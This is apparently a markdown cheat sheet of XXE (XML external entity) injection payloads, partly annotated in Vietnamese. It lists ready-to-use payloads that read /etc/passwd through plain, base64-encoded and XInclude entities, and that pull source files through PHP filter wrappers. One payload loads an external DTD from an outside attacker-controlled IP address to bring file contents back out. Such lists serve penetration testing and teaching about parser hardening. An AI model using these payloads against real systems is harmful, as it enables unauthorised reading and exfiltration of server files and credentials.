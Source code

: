 :warning: `SYSTEM` and `PUBLIC` are almost synonym.

```ps1
<!ENTITY % xxe PUBLIC "Random Text" "URL">
<!ENTITY xxe PUBLIC "Any TEXT" "URL">
```

### Classic XXE Base64 Encoded

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### PHP Wrapper Inside XXE

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

### XInclude Attacks

When you can't modify the **DOCTYPE** element use the **XInclude** to target

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### Basic via dtd
Mục tiêu là khai báo một entity ở file dtd lưu trên server:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents 
'%start;%file;%end;'>">
```
Payload submit sẽ sử dụng entity mình khai báo rồi hiển thị ra màn hình
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [
  <!ENTITY % dtd SYSTEM
  "http://10.10.14.223:9090/xxe.dtd">
  %dtd;
  %all;
]>
<root>
<email>&fileContents;</email>
</root>
```